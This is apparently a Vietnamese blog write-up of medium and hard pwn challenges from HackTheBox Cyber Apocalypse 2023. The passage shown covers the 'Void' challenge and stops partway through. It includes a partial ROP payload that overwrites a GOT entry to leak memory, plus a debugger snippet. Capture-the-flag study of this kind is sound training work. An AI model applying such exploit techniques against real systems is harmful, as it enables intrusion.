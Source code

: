```yaml
---
title: 'HackTheBox - Cyber Apocalypse 2023'
categories:
  - Pwnable
tags:
  - Pwn
  - HTB
published: true
date: 2023-03-23
---
```


# HackTheBox - Cyber Apocalypse 2023

<center>
    <p>
        1 tuần tryhard cùng CLB 🐸
    </p>
    <img src="https://i.imgur.com/rWhWqTT.png" >
</center>

Dưới đây sẽ là write-up vài câu pwn mức độ medium và hard trong giải này.

## Void
![](https://i.imgur.com/emzzaiH.png)

Chương trình đơn giản là read data vào buffer rồi kết thúc. Không có hàm nào để in data ra.

![](https://i.imgur.com/wz28zoQ.png)

Cách làm mình suy nghĩ đầu tiên là ghi đè một byte của read@got từ `0x80` -> `0x8c` , khi gọi lại read@plt ta tới được opcode `syscall` với `rax=1` (vì hàm read trước đó trả về 1).
Payload:
```python
# ....padding ....
p64(rsi_r15_ret)+p64(e.got.read)+p64(0)+ # đã có rdi=0 ở hàm vuln
p64(e.plt.read)+
p64(rdi_ret)+p64(1) # call write(1,e.got.read,...)
```
Sau khi trigger call write_syscall , mình muốn `$rax=0` lại để trigger call read_syscall ( để có thể ghi đè vào read_got lại).
Mình chỉ thấy đoạn code ở main+20 là phù hợp nhất để ép `$rax=0` lại:
```x86asm
pwndbg> x/3i main+20
   0x401157 <main+20>:	mov    eax,0x0
   0x40115c <main+25>:	leave  
   0x40115d <main+26>:	ret
```
Tuy nhiên lại bị dính opcode `leave; ret`. 
